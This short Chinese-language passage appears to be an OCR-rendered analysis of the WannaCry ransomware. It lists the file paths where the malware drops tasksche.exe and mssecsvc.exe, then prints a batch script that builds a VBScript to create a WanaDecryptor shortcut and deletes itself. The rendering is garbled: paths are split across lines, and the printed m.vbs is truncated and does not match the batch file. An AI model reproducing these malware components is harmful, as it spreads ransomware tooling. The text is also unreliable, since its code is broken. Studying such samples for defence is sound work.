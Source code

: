 
Ransomware将自己写入文件名为“tasksche.exe”的“ProgramData”文件夹中的随机字符文件夹中，或者在文件名为“mssecsvc.exe”和“tasksche.exe”的C:\ Windows文件夹中。

简单栗子哈：
***

```

C：\ ProgramData \ abc \ tasksche.exe

C：\ ProgramData \ 360 \ tasksche.exe

C：/ProgramData/wps/tasksche.exe

```


使用批处理脚本进行操作：
***
批量执行.bat


```

Content of Batch-file (fefe6b30d0819f1a1775e14730a10e0e)

echo off

echo SET ow = WScript.CreateObject(“WScript.Shell”)> m.vbs

echo SET om = ow.CreateShortcut(“C:\

WanaDecryptor

.exe.lnk”)>> m.vbs

echo om.TargetPath = “C:\

WanaDecryptor

.exe”>> m.vbs

echo om.Save>> m.vbs

cscript.exe //nologo m.vbs

del m.vbs

del /a %0

Content of ‘M.vbs’

SET ow = WScript.CreateObject(“WScript.Shell”)

SET om = ow.CreateShortcut(“C:\

WanaDecryptor

.exe.lnk”)

om.TargetPath = “C:\

WanaDecryptor

om.Save
```
